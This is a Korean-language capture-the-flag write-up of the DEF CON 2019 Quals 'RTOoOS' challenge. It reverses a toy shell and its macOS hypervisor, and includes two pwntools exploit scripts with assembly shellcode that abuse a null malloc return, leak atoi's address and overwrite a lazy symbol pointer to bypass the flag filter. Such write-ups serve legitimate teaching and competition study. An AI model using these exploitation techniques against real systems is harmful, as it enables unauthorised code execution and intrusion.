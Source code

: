 ```yaml
---
title: "DEF CON 2019 Quals / RTOoOS"
date: 2019-07-08 21:55:00 +0000
categories: CTF
---
```


keyword: hypervisor, macOS

데프콘 예선 때, 종료 10분 전에 브루트포싱에 성공하여 플래그를 땄던 문제이다. 그 때 제대로 분석 못하고 얼렁뚱땅 넘어간 부분이 많아서 다시 분석해보았다. (브루트포싱 없이 풀 수 있을까 하고 다른 팀들 write-up을 찾아봤는데 다 똑같았다 ㅋㅋㅋ)

## Solution

### 유저 프로그램 분석

이 문제의 핵심은 리버싱이다.

```
➜  rtooos file crux
crux: data
```

data 파일을 제공하는데 IDA에 넣어서 코드로 분석할 수 있다. IDA로 보면 모든 함수가  `sub_xxx` 형식이다. 동적 디버깅도 못한다. 리모트로 연결해보면서 감으로 함수 리네이밍하면서 정적 분석을 해야 한다.

```
CS420 - Homework 1
Student: Kurt Mandl
Submission Stardate 37357.84908798814
[RTOoOS>
```

간단한 shell 프로그램이다. (대학생 과제를 모티브로 낸 문제인 것 같다.)

![image-20190708183914155](/assets/img/image-20190708183914155.png)

위는 export를 처리하는 부분이다. 환경변수라서 당연히 key-value 쌍으로 처리한다. 첫 for 루틴에서 기존에 존재하는 이름이 동일한 환경변수 값들을 모두 업데이트해준다. 그 후 두번째 for 루틴에서는 새로운 key-value 쌍을 추가해준다. (환경변수 특수 기호 `$`를 처리해주는 로직도 있는데 이를 통해 버퍼오버플로우를 낼 수도 있을 것 같았다. 하지만 exploit에 쓰지는 않았다.)

`value` 값은 `malloc`으로 메모리를 할당 받고 값이 써진다. `malloc`에서 이상한 점이 있다.

![image-20190708184328200](/assets/img/image-20190708184328200.png)

`null`값이 리턴될 수 있다는 것이다. 이렇게 되면 가상메모리 영역의 0x0번지에 값을 쓸 수 있게 된다. 하이퍼바이저에서 오프셋을 다르게 해놓는다면 문제를 못 풀게 되지만 다행스럽게도 오프셋을 다르게 해두진 않았다.

실제로 변수 a를 아무렇게나 할당하고

![image-20190708184808226](/assets/img/image-20190708184808226.png)

값을 출력하여 data 파일과 비교해보면

![image-20190708184830328](/assets/img/image-20190708184830328.png)

똑같다는 것을 알 수 있다.



![image-20190708184555226](/assets/img/image-20190708184555226.png)

0x100 번지에 어떤 함수가 하나 존재하고

![image-20190708184604068](/assets/img/image-20190708184604068.png)

이는 `malloc`에서 호출된다. 해당 메모리 영역에 write 권한과 execute 권한이 걸려있길 간절히 빌면서 이 영역에 쉘코드를 overwrite한다.

```python
from pwn import *
import time

#context.log_level='DEBUG'
context.arch="amd64"

shellcode = '''
//readFile(0x1508)
xor rax, rax
add rax, 0x1508
mov edi, 0x66
out dx, al
'''

shellcode = asm(shellcode)

payload  = "\x90"*0x100
payload += shellcode

p = process(['honcho', 'crux', '20'])

# allocate at 0x0
for i in xrange(7):
  p.sendlineafter("[RTOoOS> ", 'export a')

p.sendlineafter("[RTOoOS> ", 'export a=%s' % payload)

p.interactive()
```

![image-20190708185220099](/assets/img/image-20190708185220099.png)

이렇게 하이퍼바이저를 읽어올 수 있다.

### 하이퍼바이저 분석

하이퍼바이저의 핵심 코드는 다음과 같다.

![image-20190708185522466](/assets/img/image-20190708185522466.png)

하이퍼콜 형식으로 구성되어 있다. flag 파일을 읽으려고 하면 필터링해버린다. 이를 우회해줘야 한다. `strcasestr`의 lazy symbol pointer를 atoi로 변경하면 우회 가능하다.

하지만 지금은 코드 실행만 할 수 있을 뿐, 메모리 주소는 아는게 없다. 따라서 메모리 릭을 해야 하는데 여기서 브루트포싱이 약간 필요하다. 이 문제 환경에서만 그런지 모르겠지만, 몇번 테스트를 해보니 macOS에서는 code 영역과 heap 영역의 오프셋 차이가 고정이었다. (부팅 때마다 이 차이가 달라지는 것 같다.) `vm_mem` 값을 기준으로 브루트포싱을 수행하여 오프셋 차이를 계산하면 리모트 서비스의 코드영역 베이스 주소를 알 수 있게 된다. 이를 통해 lazy symbol pointer 테이블을 수정해주면 된다.

#### Exploit Code

```python
from pwn import *
import time

#context.log_level='DEBUG'
context.arch="amd64"

'''
seg000:0000000000001508 a2              db 'honcho',0
'''

vmemAddr = 0x100002318
bin_base = 0x100000000
vmem     = 0x100096000 # different offset between code & heap per booting.
atoi_got = 0x100002040
filt_got = 0x100002170

shellcode = '''
/*
//readFile(0x1508)
xor rax, rax
add rax, 0x1508
mov edi, 0x66
out dx, al
*/

// puts(atoi_got)
xor rax, rax
sub rax, %s
mov edi, 0x64
out dx, al

// read(0, filt_got, ...)
xor rax, rax
sub rax, %s
mov edi, 0x63
out dx, al

// read(0, flag, ...)
xor rax, rax
add rax, 0x1000
mov edi, 0x63
out dx, al

// ReadFile(flag)
xor rax, rax
add rax, 0x1000
mov edi, 0x66
out dx, al
''' % (hex(vmem - atoi_got), hex(vmem - filt_got))

shellcode = asm(shellcode)

payload  = "\x90"*0x100
payload += shellcode

p = process(['honcho', 'crux', '20'])

# allocate at 0x0
for i in xrange(7):
  p.sendlineafter("[RTOoOS> ", 'export a')

p.sendlineafter("[RTOoOS> ", 'export a=%s' % payload)
atoi = u64(p.recvuntil("\x7f\x0a")[-7:-1].ljust(8,"\x00"))
log.info("atoi = 0x%x" % atoi)

p.send(p64(atoi))
time.sleep(0.1)
p.send('flag\x00')

p.interactive()
```

#### Result

![image-20190708190242930](/assets/img/image-20190708190242930.png)
